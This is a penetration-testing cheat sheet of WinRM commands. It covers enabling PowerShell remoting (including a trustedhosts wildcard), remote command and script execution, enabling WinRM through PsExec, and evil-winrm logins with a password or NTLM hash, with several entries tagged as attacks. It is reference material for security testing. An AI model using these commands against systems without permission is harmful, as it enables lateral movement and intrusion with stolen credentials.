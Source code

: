 # winrm

% windows, remote, winrm, evilwinrm, 5985, 5986
#platform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986

## Enable winrm (powershell)
#platform/windows #target/local #cat/UTILS 
```powershell
Enable-PSRemoting -Force  
Set-Item wsman:\localhost\client\trustedhosts *  
```

## Enable winrm (wmic)
#platform/windows #target/local #cat/UTILS 
```batchfile
wmic /node:<REMOTE_HOST> process call create "powershell enable-psremoting -force"
```

## Test target is configure to use winrm (powershell)
#platform/windows #target/local #cat/RECON 
```powershell
Test-WSMan -computername <computername>
```

## Execute a command on the target over winrm (powershell)
#platform/windows #target/remote #cat/ATTACK/EXPLOIT   
```powershell
Invoke-Command -computername <computername> -ScriptBlock {<cmd>} -credential <domain>\<username>
```

## Execute a script on the target over winrm (powershell)
#platform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
Invoke-Command -ComputerName <computername> -FilePath <path_to_script> -credential <domain>\<username>
```

## Get a powershell session with winrm (powershell)
#platform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
Enter-PSSession -ComputerName <computername> -Credential <domain>\<username>
```

## Enable winrm remotelly from psexec
#platform/windows #target/remote #cat/ATTACK/EXPLOIT 
```batchfile
.\PsExec.exe \\<computername> -u <domain>\<username> -p <password> -h -d powershell.exe "enable-psremoting -force"  
```

## evil-winrm install
#target/local #cat/UTILS 
```
gem install evil-winrm
```

## evil-winrm - connect with username and password
#platform/linux  #target/remote #cat/ATTACK/CONNECT 
```
evil-winrm -i <target_ip> -u <user> -p <password>
```

## evil-winrm - connect with username and NTLM hash
#platform/linux  #target/remote #cat/ATTACK/CONNECT 
```
evil-winrm -i <target_ip> -u <user> -H <hash>
```

## evil-winrm -connect with usersname and NTLM hash with domain
#platform/linux  #target/remote #cat/ATTACK/CONNECT 
```
evil-winrm -i <target_ip>/<domain> -u <user> -H <hash>
```
